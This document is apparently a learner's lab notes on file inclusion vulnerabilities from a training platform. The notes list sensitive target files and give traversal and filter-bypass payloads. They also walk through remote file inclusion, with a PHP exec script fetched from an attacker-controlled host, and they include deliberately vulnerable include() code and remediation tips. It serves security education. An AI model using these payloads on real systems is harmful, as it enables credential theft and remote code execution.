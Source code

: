 ### Table of contents
- [[#Intro]]
- [[#Path Traversal]]
- [[#LFI 1]]
- [[#LFI 2]]
- [[#RFI -- Remote File Inclusion]]
- 

___
### Intro
[[#Table of contents|Back to the top]]

![[Pasted image 20250418150136.png]]

Main issue: input validation -- sanitization, validation

File inclusion can be used to exfiltrate sensitive data or to gain RCE (Remote Command Execution) (if user can access and also write files)

___
### Path Traversal
[[#Table of contents|Back to the top]]

AKA **Directory Traversal** AKA **dot-dot-slash**: attacker can read OS resources (local files on server running app), done by manipulating URL

Path traversal vulnerability: user's input directly passed to function such as ***file_get_contents*** in PHP. Input should be validated and filtered 1st

Common paths to test traversal
- `/etc/issue`: message/ system identification before login prompt
- `/etc/profile`: system-wide 
- `/proc/version`: Linux kernel version
- `/etc/passwd`: all registered users that have access to system
- `/etc/shadow`: info about system's users passwords
- `/root/.bash_history`: root's history commands
- `/var/log/dmessage`: global system messages
- `/var/mail/root`: root's emails
- `/root/.ssh/id_rsa`: SSH keys for root or other user
- `/var/log/apache2/access.log`: accessed requests for Apache web server
- `C:\boot.ini`: boot options for computers with BIOS firmware

___
### LFI #1
[[#Table of contents|Back to the top]]

*Local File Inclusion*

PHP `include`, `require`, `include_once`, `require_once` often contribute to vulnerable web applications

LFI also occurs in ASP, JSP, Node.js

#### Lab #1

1. Web app provides 2 languages, lets user choose (EN/AR)
```php
<?PHP 
	include($_GET["lang"]);
?>
```
$\rightarrow$ `/index.php?lang=EN.php` display English
$\rightarrow$ `/index.php?lang=AR.php` display Arabic

If no input validation $\rightarrow$ possible to access any file on server
$\Rightarrow$ Payload: `/get.php?file=/etc/passwd`

#### Lab #2

2. Developer specified directory
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
*Include function calls PHP pages in languages directory only via lang parameters*

Without input validation, attacker can manipulate URL, replacing `lang` by `etc/passwd` for instance

When trying `/etc/passwd`, error messages indicates `var/www/html/lab2.php` $\Rightarrow$ 4 `../` to go to the root
$\Rightarrow$ Payload: `http://webapp.thm/index.php?lang=../../../../etc/passwd`

___
### LFI #2
[[#Table of contents|Back to the top]]

LFI #1 was white box: access to source code

LFI #2 is black box: no access to source code $\rightarrow$ error messages are important

#### Lab #3

Error message:
```php
Warning: include(includes/etc/passwd.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab3.php on line 26
```
$\rightarrow$ include function looks like `include(languages/etc/passwd.php)` $\Rightarrow$ it appends `etc/passwd` with .php
$\Rightarrow$ use NULL BYTE `%00` to ignore the appending of .php
$\Rightarrow$ Full payload: `../../../../etc/passwd%00`
 
**NB**: doesn't work with PHP **5.3.4** and above

#### Lab #4

Error message:
```php
You are not allowed to see source files!
```

Adding `/.` at the end of the path can bypass filters

$\Rightarrow$ Payload: `../../../../etc/passwd/.`

#### Lab #5

Try `../../../../etc/passwd`

Error message: 
```php
Warning: include(includes/etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab5.php on line 28
```
$\rightarrow$ include function shows no `../` $\rightarrow$ PHP filter deletes `../`
$\Rightarrow$ Payload: `....//....//....//....//etc/passwd`
![[Pasted image 20250424105620.png]]

**Question**: could you make a recursive PHP filter in order to defend against this payload or longer iterations of this payload?

#### Lab #6

Error message:
```php
Access Denied! Allowed files at THM-profile folder only! 
```

$\Rightarrow$ Payload: `THM-profile/../../../../etc/passwd`

___
### RFI -- Remote File Inclusion
[[#Table of contents|Back to the top]]

Include remote file into vulnerable application
`allow_url_fopen` option needs to be `on`

Attacker gain **RCE** (Remote Command Execution) on server
	$\rightarrow$ Sensitive Information Disclosure
	$\rightarrow$ XSS (Cross-site Scripting)
	$\rightarrow$ DoS (Denial of Service)

![[Pasted image 20250424141937.png]]

1. **Inject** malicious URL into web app: `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`
2. Web app server sends **`GET`** request to malicious server to fetch file

$\Rightarrow$ Payload: `playground.php?file=http://10.10.163.181/lab6.php?file=THM-profile/tryhackme.txt`

Example:

1. Write script on machine
`cmd.txt`
```php
<?php print exec('hostname'); ?>
```
2. Launch webserver
```shell
sudo python3 -m http.server
```
*will run on port 8000 by default*
Get IP of local machine: `ifconfig` $\rightarrow$ `10.10.199.71`
2. Inject
`http://10.10.163.181/playground.php?file=http://10.10.199.71:8000/cmd.txt`

___
### Remediation
[[#Table of contents|Back to the top]]

1. **Update** everything
2. **Turn off** PHP **errors**
3. **WAF** (Web Application Firewall)
4. Disable unneeded, file inclusion vulnerable PHP **features** (`allow_url_fopen`, `allow_url_include`)
5. Analyze web application, allow only needed **protocols** and PHP **wrappers**
6. **Input validation**
7. **Whitelisting/blacklisting** for file names, locations